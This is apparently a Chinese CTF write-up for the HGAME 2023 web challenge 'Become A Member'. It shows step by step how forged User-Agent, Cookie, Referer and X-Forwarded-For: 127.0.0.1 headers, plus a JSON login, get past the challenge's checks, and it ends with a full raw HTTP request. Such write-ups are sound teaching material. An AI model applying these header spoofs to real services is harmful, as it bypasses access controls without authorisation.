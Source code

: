 # [HGAME2023]Become A Member
![](<./img/Pasted image 20230131091204.png>)

![](<./img/Pasted image 20230131091221.png>)

一开始没想到是改`UA`的我破大防（

```http
User-Agent: Cute-Bunny
```

```
每一个能够成为会员的顾客们都应该持有名为Vidar的邀请码（code）
```

```http
Cookie: code=Vidar
```

```
由于特殊原因，我们只接收来自于bunnybunnybunny.com的会员资格申请
```

```http
Referer: bunnybunnybunny.com
```

```
就差最后一个本地的请求，就能拿到会员账号啦
```

```http
X-Forwarded-For: 127.0.0.1
```

```
username:luckytoday password:happy123（请以json请求方式登陆）
```

```http
GET / HTTP/1.1
Host: week-1.hgame.lwsec.cn:32575
Upgrade-Insecure-Requests: 1
User-Agent: Cute-Bunny
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: code=Vidar
Referer: bunnybunnybunny.com
X-Forwarded-For: 127.0.0.1
Connection: close
Content-Length: 49

{"username":"luckytoday", "password": "happy123"}
```

![](<./img/Pasted image 20230131093901.png>)

#Web #HTTP #Header 